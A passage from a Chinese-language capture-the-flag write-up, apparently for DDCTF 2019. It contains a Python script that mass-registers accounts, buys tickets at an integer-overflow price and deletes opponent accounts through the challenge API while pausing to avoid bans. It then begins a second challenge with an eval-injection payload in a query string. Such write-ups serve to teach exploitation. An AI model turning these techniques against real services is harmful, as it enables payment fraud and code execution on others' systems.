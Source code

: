 tips:  
剩余对手的100人中，id是任意的，你并不能保证只需要注册100次就可以删掉全部的对手，最有效的办法是注册一次删除一次。  

因篇幅原因，抓取api请求，并编写脚本的过程便不再赘述，脚本注释已较为详尽，使用时修改参数即可，唯一缺憾是代码健壮性欠佳，遇到网络问题时不能处理错误造成崩溃，但代码作用是可续的，所以问题不大，重启脚本就可以继续了  
```
import requests
import time

regist = "http://117.51.147.155:5050/ctf/api/register?password=11111111&name="#name添加一个前缀
buy_ticket = "http://117.51.147.155:5050/ctf/api/buy_ticket?ticket_price=4294967296"
pay_ticket = "http://117.51.147.155:5050/ctf/api/pay_ticket?bill_id="
delete = "http://117.51.147.155:5050/ctf/api/remove_robot"
get_flag="http://117.51.147.155:5050/ctf/api/get_flag"

i= 55555                                                       #初始化用户名,使用未注册过的数字

def delete_robot(player_id, player_ticket):
    COOKIE = {"Cookie": "user_name=; REVEL_SESSION="}               #修改为自己主账户的cookie
    param={"id":player_id,"ticket":player_ticket}
    requests.get(delete,params=param, headers=COOKIE)               #删除id
    flag = requests.get(get_flag, headers=COOKIE)                   #获取剩余的敌人数量
    print(flag.text )

while True:
    t = requests.session()
    i+=1
    r = t.get(regist + str(i))                      #注册
    r = t.get(buy_ticket).json()                    #购买Ticket，解析json
    bill_id = r["data"][0]["bill_id"]               #json解析bill_id
    r = t.get(pay_ticket + bill_id).json()          #支付订单
    player_id = r["data"][0]["your_id"]
    player_ticket = r["data"][0]["your_ticket"]     #json解析id与ticket
    delete_robot(player_id,player_ticket)           #使用主账户删除id
    time.sleep(0.3)                                 #短暂休眠避免被封
```

### homebrew event loop
作者：**12end**  
直接审计源码    
对于本题的字串切割函数get_mid_str请自行理解，如果不明白这个函数的话，下面的payload将难以理解原理。  
首先，eval的那部分由于分割不当可以通过注释符导致代码执行，我们可以构造?action:show_flag_function%23;请求来执行一个（没卵用的函数）:  
![](http://imgs.12end.xyz/ctf/ddctf2019/7.png)  
能够执行，就该思考怎么进一步利用以获取flag  
不难看出，本题靠队列控制函数的执行流程，且唯一获取flag的函数被ban掉了返回值:  
```
def show_flag_function(args):               #被ban的输出flag函数，没有return flag
    flag = args[0]
    #return flag # GOTCHA! We noticed that here is a backdoor planted by a hacker which will print the flag, so we disabled it.
    return 'You naughty boy! ;) <br />'
```
仔细观察代码，我们发现还可以从两个地方获取flag：  
+ 1.直接执行FLAG()
+ 2.执行get_flag_handler会通过trigger_event('func:show_flag;' + FLAG())将flag的值入队
